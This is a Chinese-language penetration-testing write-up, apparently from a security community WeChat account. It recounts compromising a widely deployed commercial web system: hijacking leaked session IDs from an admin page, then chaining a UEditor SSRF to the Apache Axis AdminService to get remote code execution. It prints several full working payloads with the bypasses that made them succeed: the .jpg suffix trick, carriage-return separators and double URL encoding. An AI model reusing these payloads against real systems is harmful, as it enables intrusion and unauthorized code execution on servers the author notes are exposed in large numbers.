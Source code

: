 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sesveh4L_8osXt7HpVC9Nw)

**本文首发于****奇安信攻防社区**  

**社区有奖征稿**

· 基础稿费、额外激励、推荐作者、连载均有奖励，年度投稿 top3 还有神秘大奖！

· 将稿件提交至奇安信攻防社区（点击底部 阅读原文 ，加入社区）

[点击链接了解征稿详情](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489051&idx=1&sn=0f4d1ba03debd5bbe4d7da69bc78f4f8&scene=21#wechat_redirect)

**前言**
======

某一天 7iny 好兄弟找到一套源代码 (安装包)，看了一下不少问题。就从这套系统代码开始渗透吧。看了一下 fofa, 有一千多个。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46q7KsgZB7pqrIMQT6w2ViabBVvVUUSgiapex1iaKu1Suo6icyuuBGKWicxKzg/640?wx_fmt=jpeg)

### **step1**

收到源码后发现几个有意思的功能：

1、`/manage/index.jsp`直接列举出来了所有当前的`sessionID`。  
有了 session，我们只需要找到在线的 session 然后替换我们当前的 seesionID 可既可以登录当前系统

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qWWhdfThOUXSyphCwvsiccAVE5aUS1icKrSiclTvLotPpyFeoRLv2oQMww/640?wx_fmt=jpeg)  
好家伙。这么多用户，我们可以登录去用户系统了。打了渗透的大门。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qKHNh4v0SCibElzibxIWxM2Q1wgC0KlkaCXtUTlLIdyPFnTduFARxWN5w/640?wx_fmt=png)

2、进去后发现还有个路径`/mobile/phone/main.jsp`就是手机端的主页面  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qXYABgbf4cNb6HRibjEFHWMJwCC13ZUEENn7PqQKTvd3cEpiaXz8ZdWZg/640?wx_fmt=jpeg)  
还有一些报表的页面，  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qSaL9uIdeOd8vFibfkDu0fluZQwb2Wzgk5HKQbsk6WNU5n2kAcPljKWA/640?wx_fmt=jpeg)  
进去后很可惜发现没有可 RCE 的点。

### **step2**

1.  发现了一个 AXIS 服务。  
    ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qqzTQVfWbjQvKwgiatwLDENdyZEHCqY9KiaKgD9MA2vEw1dFKaibib8tAuQ/640?wx_fmt=jpeg)  
    axis<=1.4 版本存在 RCE，尝试使用已知 payload 打一下，毫无意外的 remote user access is not allowed.
    

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qaoqIu17fNXibn8WhOwaXMW8pH4zjQQeuecLAWrxrt9cwfaicdzoGdm7g/640?wx_fmt=jpeg)  
也就是说只需要找到一个 SSRF，本地调用即可。  
7iny 帮我找到一个利用点，`/common/ueditor1_3_5-utf8/` 发现一个 ueditor

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qPyC8SVssLxexicyWpZ1kKhMiciaGxgMxZ9ZLYR4wWecK0Ih9N0L7kxHrw/640?wx_fmt=jpeg)

这个编辑器存在一个 SSRF。  
`/common/ueditor1_3_5-utf8/jsp/getRemoteImage.jsp?upfile=`  
使用 AXIS 的 get 型 payload 尝试一下，发现图片类型不正确。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qObCF93HTTqHhiaIz5DjyicicQKZMfeY4gaoE9rqTcmd2WeRPiccR6vakaQ/640?wx_fmt=jpeg)

### **step3**

知道是 AXIS, 有`getRemoteImage.jsp`的源码，本地搭建一个环境来 debug, 开启 debug 模式`./catalina.sh jpda start`

#### _**第一次尝试 (先盲猜一下)**_**：**

既然是需要结尾需要一个. jpg。我们在 URL 后直接加. jpg 结尾。也就是：&xx=xx.jpg

```
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment&xx=xx.jpg
```

发现还是被 ban。还是提示图片类型不正确。预料之中。

##### _**第二次尝试**_**：**

看一下 remote.jsp 的源码。很简单，就是远程下载一个图片，依次遍历每个参数，并且判断是不是以”.gif” , “.png” , “.jpg” , “.jpeg” , “.bmp” 这些结尾。如果不是图片或者不正确则报错。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46q4Dx9LPTG2EW1DK1puFyzElmfX8aaTQucVBUWmHYy8YIv8nqEJWLticw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46q2jJg4KhDUnS6jYA7iavHE9M3LLyRgYdbpC7yRMBA3bNUlIFeiatvQib2Q/640?wx_fmt=jpeg)  
现在尝试一下，直接接一个. jpg。看一下是不是爆出” 请求地址头不正确”，这个我们预期的结果。

```
http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%20x mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%20x mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22ServiceFactoryService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22org.apache.axis.client.ServiceFactory%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment.jpg
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qwclico0LibW4o2tEa9XT9aiaibQV18Vq0Eib4icuajGXz1ctDEejG6IYBpRg/640?wx_fmt=png)  
遗憾的是并不是预期的结果，而是报了一个空指针，事实上，看 remote.jsp 的代码是不会有空指针爆出来，那就只能是框架爆出来的，既然是框架一般而言是有不合法的字符出现会出现此类的情况。  
最后发现是 %20, 不能有空格，因为提交的是 x ml 格式的数据，里面的空格用来做字符的分割，既然不能有空格，那我们直接用换行 %0d%0a，试试看是否可以。

```
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%3E%3Cdeploymenta%0d%0axxx
```

发现还是空指针。后面通过尝试，只有 %0d 可以，%0a 不行。是不是真的能否作为 x ml 的分隔符现在还不知道。![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qkI8q0VdsNhTdRAJ4dXBv7Df8333H0aJ6bt57QxtS5IiaKKkzd1SERjA/640?wx_fmt=png)

##### _**第三次尝试：**_

开始绕过图片为结尾的后缀，在 get 类型的 payload 中，发现开头有一个!—>，debug 一下跟到代码处，发现是为了做一个拼合。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qBZeibFQQerHRAsKZicyC5C3ehs0zUKuHib4kwgxmKgbF1icPib9dN6T5VsQ/640?wx_fmt=jpeg)  
代码如下：  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qiaafOH5Yh1GuOnYMl1oKcbJSZv85JibD3eKEOXhBNykASWibicpsnTe0NA/640?wx_fmt=jpeg)  
最终拼接后为：  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qW2N03z01gEhrPm9t1F59IKvgNSDClDOhRakQuI8VHPofPsAScL0jww/640?wx_fmt=jpeg)  
刚好把第一个 payload 注释，第二个生效。现在我们只需要做填空题。在结尾拼接就行`<xxx.jpg></xxx.jpg`即可，当然结尾的 > 会给我们自动闭合，刚好以. jpg 结尾，所以新的 payload 如下：  
所以我们只需要在结尾加上`><xx.jpg></xx.jpg` 即可  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qn9WicD1v31WalY5cicLuRBHruLPWH74icgbOmtLTA2DgkOv1CTicfD5rlA/640?wx_fmt=jpeg)

使用 %0d，以及我们拼接的 xx.jpg payload 来提交，debug 后发现 %0d 后的东西丢了

```
http://localhost:8080/remote.jsp?upfile=http://localhost:8080/axis/services/AdminService?method=!--%3E%3Cdeployment%0dx mlns%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2F%22%0dx mlns%3Ajava%3D%22http%3A%2F%2Fx ml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%0dname%3D%22m00gege%22%0dprovider%3D%22java%3ARPC%22%3E%3Cparameter%0dname%3D%22className%22%0dvalue%3D%22com.sun.s cript.j avas cript.Rhinos criptEngine%22%0d%2F%3E%3Cparameter%0dname%3D%22allowedMethods%22%0dvalue%3D%22e val%22%0d%2F%3E%3CtypeMapping%0ddeserializer%3D%22org.apache.axis.encoding.ser.BeanDeserializerFactory%22%0dtype%3D%22java%3Ajavax.s cript.Simples criptContext%22%0dqname%3D%22ns%3ASimples criptContext%22%0dserializer%3D%22org.apache.axis.encoding.ser.BeanSerializerFactory%22%0dx mlns%3Ans%3D%22urn%3Abeanservice%22%0dregenerateElement%3D%22false%22%3E%3C%2FtypeMapping%3E%3C%2Fservice%3E%3C%2Fdeployment%3E%3Cxx.jpg%3E%3C/xx.jpg
```

访问  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qTib4ZbtqzI3sfic54vKBl4YcbSnliac6EtEMKaEjmrIrUpnmickEquv55A/640?wx_fmt=jpeg)

##### _**第四次尝试：**_

咋办??

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qliaKWLG9szVoRTezQCbe3iaqcbgZu4Xzg8Ex0ic35OTDZoq0v2BlZbgeg/640?wx_fmt=png)

最后灵机一动，试一下 urlencode 双重编码, 成功了。

```
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%253E%253Cdeployment%250dx mlns%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252F%2522%250dx mlns%253Ajava%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252Fproviders%252Fjava%2522%253E%253Cservice%250dname%253D%2522mxxgege%2522%250dprovider%253D%2522java%253ARPC%2522%253E%253Cparameter%250dname%253D%2522className%2522%250dvalue%253D%2522com.sun.s cript.j avas cript.Rhinos criptEngine%2522%250d%252F%253E%253Cparameter%250dname%253D%2522allowedMethods%2522%250dvalue%253D%2522e val%2522%250d%252F%253E%253CtypeMapping%250ddeserializer%253D%2522org.apache.axis.encoding.ser.BeanDeserializerFactory%2522%250dtype%253D%2522java%253Ajavax.s cript.Simples criptContext%2522%250dqname%253D%2522ns%253ASimples criptContext%2522%250dserializer%253D%2522org.apache.axis.encoding.ser.BeanSerializerFactory%2522%250dx mlns%253Ans%253D%2522urn%253Abeanservice%2522%250dregenerateElement%253D%2522false%2522%253E%253C%252FtypeMapping%253E%253C%252Fservice%253E%253C%252Fdeployment%253E%253Cxx.jpg%253E%253C%2Fxx.jpg
```

成功了，出现了我们预期的效果。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qAwP4uKJlyNzHgvjyOETicXYMicqBPQ9XqvLZJPKltBU74HXa96DZsgfA/640?wx_fmt=jpeg)  
成功注册服务  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qCMkjmliaxmC91AcaYQ7ib5s3Saa9DlLtGe4uphI2ppGFFM8Zp0OosGpw/640?wx_fmt=jpeg)

##### _**第五次尝试：**_

接下来，直接访问我们部署的服务即可。执行 whoami。  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qHndT3rVTIo5yQ2ZicIsWODRfAyvb3nicyMAQrZgYZtW2BcibBFhOk194A/640?wx_fmt=jpeg)

### _**总结**_

觉得这个漏洞可以作为 CTF 来出，挺有意思的一个漏洞，关键点，.jpg 绕过，%20 处理。

  

---

END

  

【版权说明】本作品著作权归 maoge 所有，授权补天漏洞响应平台独家享有信息网络传播权，任何第三方未经授权，不得转载。

  

  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/WdbaA7b2IE7fupM77icRcd9R9s0gNp46qxBNY8mz7gxO55npWYtQ37j1uD8RibnKibImO6Og6TeliaYUaTkzvjK1UQ/640?wx_fmt=jpeg)

maoge

  

一个无战队的随缘挖洞的补天白帽子

**敲黑****板！转发≠学会，课代表给你们划重点了**

**复习列表**

  

  

  

  

  

[记一次文件上传的曲折经历](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489568&idx=1&sn=56beddb5ef58d9556d75bbd8dd146dd2&chksm=eafa506cdd8dd97a9420b312770c8ea1bdeb0394ce38ef54834e60e91c0b404f934ac494ca3c&scene=21#wechat_redirect)

  

[代码审计之 eyouCMS 最新版 getshell 漏洞](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489781&idx=1&sn=a2d0ccd466dfa95067f223c8318a316d&chksm=eafa50b9dd8dd9af45ef4fcf23074aeecc196dc72b3ff447282a9e6ea9904dcc08fe72430d30&scene=21#wechat_redirect)

  

[硬核黑客笔记 - 怒吼吧电磁波 (上)](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489491&idx=1&sn=4ab4db01f63ca3c82c155d82c92b2662&chksm=eafa5f9fdd8dd689bc8cbcde1bb488372f50008619d25ca292753b0356eba4ea405db20349b4&scene=21#wechat_redirect)

  

[从 WEB 弱口令到获取集权类设备权限的过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489456&idx=1&sn=a156b1a398e53e0c0d1cc1b8f4bc78f7&chksm=eafa5ffcdd8dd6eae463303a99720247160a79218e86ee494c5defbf6e9d4be0a9b63b13775c&scene=21#wechat_redirect)

  

[一个域内特权提升技巧 | 文末双重福利](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489414&idx=1&sn=f9addeb81e8a2ea160e043ee2b19a4cf&chksm=eafa5fcadd8dd6dc815cdbd43b7311a447ccabb35c98519237448cb643d183b2c264e073bc16&scene=21#wechat_redirect)

  

[php 无文件攻击浅析](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489820&idx=1&sn=5fe5827ab1f5ef7175449be8a822bf08&chksm=eafa5150dd8dd8463acab35b71b0db213923508055ed0e1dd106788206e42de8dc80c5d58232&scene=21#wechat_redirect)

  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJLFcmlcnz38EApnEkFiaISicklcwbo3gnI17t54PqyYOE8LV4yczIfjdqw/640?wx_fmt=png)  

  

分享、点赞、在看，一键三连，yyds。

![](https://mmbiz.qpic.cn/mmbiz_gif/FIBZec7ucChYUNicUaqntiamEgZ1ZJYzLRasq5S6zvgt10NKsVZhejol3iakHl3ItlFWYc8ZAkDa2lzDc5SHxmqjw/640?wx_fmt=gif)

  

点击阅读原文，加入社区，获取更多技术干货！
